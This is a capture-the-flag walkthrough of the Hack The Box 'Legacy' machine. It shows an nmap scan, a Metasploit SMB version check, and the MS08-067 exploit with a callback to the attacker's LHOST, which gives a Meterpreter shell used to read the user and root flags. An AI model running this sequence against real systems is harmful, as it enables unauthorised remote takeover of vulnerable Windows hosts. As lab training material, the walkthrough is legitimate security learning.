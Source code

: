 # Hack The Box - Legacy

```sh
export IP=10.10.10.4
```

```sh
sudo nmap -A -T4 -p- -oN nmap-initial $IP
```
![nmap-initial](screenshots/nmap-initial.png)

Start metasploit
```sh
msfconsole
```

```
search msb_version
```
![msf-smb_version]("./screenshots/mfs-smb_version.png")

```
use auxiliary/scanner/smb/smb_version
```

```
set rhosts 10.10.10.4
```

```
run 
```
![msf-smb_version_result]("./screenshots/mfs-smb_version_res.png")

```
use exploit/windows/smb/ms08_067_netapi
```

Set RHOSTS
```
set rhosts 10.10.10.4
```
Check your ip addr tun0
Set LHOST
```
set lhost 10.10.14.3
```

```
exploit
```

In meterpreter shell
```
getuid
```
```
sysinfo
```
![meterpreter-info]("./screenshots/meterpreter-info.png")

```
cd ../../"documents and settings"
```
```
dir
```
![meterpreter-doc_set]("./screenshots/meterpreter-doc_set.png")
```
cd john/Desktop
```

```
cat user.txt
```
![user-flag]("./screenshots/user-flag.png")

```
cd ../../Administrator/Desktop
```

```
cat root.txt
```
![root-flag]("./screenshots/root-flag.png")
